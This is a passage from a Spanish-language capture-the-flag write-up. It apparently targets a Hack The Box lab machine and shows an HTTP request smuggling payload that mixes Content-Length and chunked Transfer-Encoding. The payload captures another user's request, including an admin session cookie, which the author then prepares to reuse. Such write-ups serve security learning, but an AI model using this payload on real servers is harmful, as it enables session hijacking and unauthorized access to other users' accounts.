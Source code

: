Si ponemos más de **308** como tamaño volvemos a obtener solo una nota, entonces podemos borrar el contenido de `note=` (para liberar espacio) y coloquemos `Content-Length: 303` (después de algún tanteo):

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 254
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDWNyg.naJPYMmG6_8HKfdGqeeJMTwjVR4
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding:chunked

9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 303
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDWNyg.naJPYMmG6_8HKfdGqeeJMTwjVR4

note=
```

Y obtenemos ahora si en la nota:

```html
GET /notes/delete/1234 HTTP/1.1 
Host: 127.0.0.1:8080 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0 
Accept-Encoding: gzip, deflate 
Accept: */* 
Cookie: session=eyJlbWFpbCI6ImFkbWluQHNpbmsuaHRiIn0.YDWL9A.dG5uqF6Y8oZfi7uQi3IATStQVIA 
X-Forwarded-For: 127.0.0.1
```

Perfecto, ahora si es del tamaño adecuado :)

> (Volvieron a reiniciar la máquina😐)

Tomemos la cookie. Yo usare la extensión de Firefox llamada `Cookie-Editor` (que nos permite jugar con las cookies claramente :P)
